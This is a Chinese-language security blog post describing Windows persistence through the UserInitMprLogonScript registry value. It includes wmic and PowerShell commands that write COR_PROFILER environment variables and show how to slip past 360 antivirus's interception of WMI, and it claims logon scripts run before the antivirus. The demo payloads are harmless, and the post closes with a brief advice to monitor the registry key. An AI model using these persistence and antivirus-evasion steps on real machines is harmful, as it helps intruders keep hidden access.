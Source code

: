 ```yaml
---
layout: post
title: Use Logon Scripts to maintain persistence
---
```


## 0x00 前言
---

依旧是对后门利用方法做介绍，本次介绍的是使用Logon Scripts的方法。然而我在研究过程中发现了一个特别的用法，脚本优先于杀毒软件执行，能够绕过杀毒软件对敏感操作的拦截，本文将要具体介绍这个技巧。

**注：**

本文均指“部分”杀毒软件

## 0x01 简介
---

- Logon Scripts用法
- 绕过360对wmi调用的拦截
- 特别用法

## 0x02 Logon Scripts用法
---

思路来自于Adam@Hexacorn，地址如下：

http://www.hexacorn.com/blog/2014/11/14/beyond-good-ol-run-key-part-18/

### 简要介绍Logon Scripts的用法

注册表路径：`HKCR\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/1-1.png)

bat内容如下：

`start calc.exe`

注销，登录

执行脚本11.bat，弹出计算器


## 0x03 绕过360对通过wmi修改环境变量的拦截
---

在之前的文章《Use CLR to maintain persistence》提到过使用wmic修改环境变量的方法

命令如下：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```

然而，360会对WMI的操作进行拦截，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/2-1.png)

其实通过WMI添加环境变量等价于在注册表`HKCR\Environment\`新建键值

所以对WMI的操作可以通过写注册表的操作进行代替


以上WMI命令可替换为如下powershell代码：

```
New-ItemProperty "HKCU:\Environment\" COR_ENABLE_PROFILING -value "1" -propertyType string | Out-Null

New-ItemProperty "HKCU:\Environment\" COR_PROFILER -value "{11111111-1111-1111-1111-111111111111}" -propertyType string | Out-Null
```

## 0x04 特别用法
---

源于我的一个特别的想法

我在对该技巧研究的过程中，产生了一个有趣的想法，Logon Scripts启动的顺序是否优先于其他程序呢？

如果是的话，那么是否也优先于杀毒软件呢？

下面开始我的测试：


### 1、cmd输入如下代码

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
```

不出意外，被拦截


### 2、设置Logon Scripts

11.bat代码如下：

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
reg query HKEY_CURRENT_USER\Environment /V test
pause
```

### 3、启用Logon Scripts

注册表路径：`HKCR\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

由于调用WMI会被拦截，可以通过powershell实现，代码如下：

```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```

### 4、注销，重新登录，测试

如果注册表`HKCR\Environment\`成功被写入键值`test` `REG_SZ` `I run faster!`，说明Logon Scripts优先于杀毒软件执行，绕过杀毒软件的限制


完整操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/3.gif)

测试成功，验证我们的结论

## 0x05 防御
---

监控注册表键值`HKCR\Environment\UserInitMprLogonScript`


## 0x06 小结
---

本文对Logon Scripts的用法进行了测试，并且介绍了一个特别用法，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。
站在防御的角度，要对此保持警惕。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
